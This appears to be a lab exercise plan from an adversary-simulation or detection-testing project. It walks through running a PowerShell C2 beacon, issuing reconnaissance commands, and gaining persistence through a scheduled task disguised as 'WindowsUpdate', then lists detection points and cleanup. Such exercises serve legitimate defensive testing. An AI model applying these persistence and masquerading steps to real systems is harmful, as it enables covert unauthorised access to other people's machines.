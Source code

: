 # Initial Access and Persistence Attack Plan

## Overview
This exercise simulates an adversary gaining initial access to the target environment and establishing persistence through a custom C2 infrastructure.

## Prerequisites
- Lab environment deployed and running
- C2 server operational
- Windows and Linux targets accessible

## Attack Steps

### 1. Initial Access
1. Deploy the PowerShell beacon to the Windows target
   ```powershell
   # From the Windows target
   .\beacon.ps1
   ```

2. Verify beacon registration with C2 server
   - Check C2 server logs for successful registration
   - Confirm beacon appears in the C2 dashboard

### 2. Command Execution
1. Issue basic reconnaissance commands
   ```json
   {
     "command": "whoami",
     "args": []
   }
   ```

2. Gather system information
   ```json
   {
     "command": "systeminfo",
     "args": []
   }
   ```

### 3. Persistence
1. Create scheduled task for beacon persistence
   ```json
   {
     "command": "schtasks",
     "args": ["/create", "/tn", "WindowsUpdate", "/tr", "powershell.exe -File C:\\scripts\\beacon.ps1", "/sc", "onstart"]
   }
   ```

2. Verify persistence mechanism
   - Restart the Windows target
   - Confirm beacon reconnects automatically

## Detection Points

### Network Detection
- Suricata rules should alert on:
  - Beacon registration traffic
  - Regular check-ins
  - Command execution results

### Host Detection
- Windows Event Logs:
  - Scheduled task creation
  - PowerShell execution
  - Process creation

### Zeek Logs
- HTTP traffic patterns
- DNS queries
- Connection statistics

## Success Criteria
1. Beacon successfully registers with C2 server
2. Commands execute and return results
3. Persistence mechanism survives system restart
4. Detection rules trigger appropriate alerts

## Cleanup
1. Remove scheduled task
   ```json
   {
     "command": "schtasks",
     "args": ["/delete", "/tn", "WindowsUpdate", "/f"]
   }
   ```

2. Stop and remove beacon process
   ```json
   {
     "command": "taskkill",
     "args": ["/F", "/IM", "powershell.exe"]
   }
   ```

## Notes
- Document any detection bypasses or improvements needed
- Record timing of detection alerts
- Note any unexpected behavior or errors 